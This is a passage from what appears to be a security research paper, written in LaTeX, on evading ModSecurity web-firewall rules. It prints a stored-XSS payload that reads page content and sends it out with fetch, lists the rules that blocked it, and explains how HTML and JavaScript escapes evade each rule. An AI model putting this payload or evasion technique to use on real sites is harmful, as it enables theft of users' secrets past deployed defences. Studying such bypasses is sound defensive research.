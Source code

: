 \subsubsection{HTML Character References + JavaScript normal character escape}
\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to employ stored XSS to exfiltrate secrets \cite{swigger/storedxss}.
It was blocked by the ModSecurity firewall based on 4 rule triggers:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

As the payload is meant to be injected into an html document, HTML escaping can be used to escape certain characters.
On escaping of the character \verb|a| in \verb|j&#97vascript|, the payload evaded the rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload evaded rule \verb|941180|.
Finally one of the \verb|/| in the url-string given to the JavaScript function \verb|fetch| is escaped by prepending it with a \verb|\|.
Escaping any normal character with a \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

